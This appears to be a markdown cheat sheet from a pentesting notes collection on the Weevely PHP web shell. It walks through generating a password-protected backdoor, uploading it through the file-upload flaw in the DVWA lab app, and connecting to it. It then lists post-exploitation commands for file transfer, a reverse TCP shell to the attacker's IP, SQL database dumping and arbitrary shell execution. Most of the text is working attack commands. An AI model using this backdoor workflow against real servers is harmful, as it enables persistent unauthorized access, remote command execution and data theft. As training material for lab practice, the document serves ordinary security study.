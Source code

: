 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload 
   - we have an input field
     -  Upload in vulnerable app (DVWA-Low)
   - we access to system shell
     - ```wget http://10.20.14.213/shell.txt``` 
3. Run
   - Send a request to uploaded php file *"http://192.168.152.132/dvwa/hackable/uploads/shell.php"*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]```
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
- Other functions
  - ```whoami``` 
  - ``` shell_sh [command]```
  - ```shell_sh -v [vector] [command]```
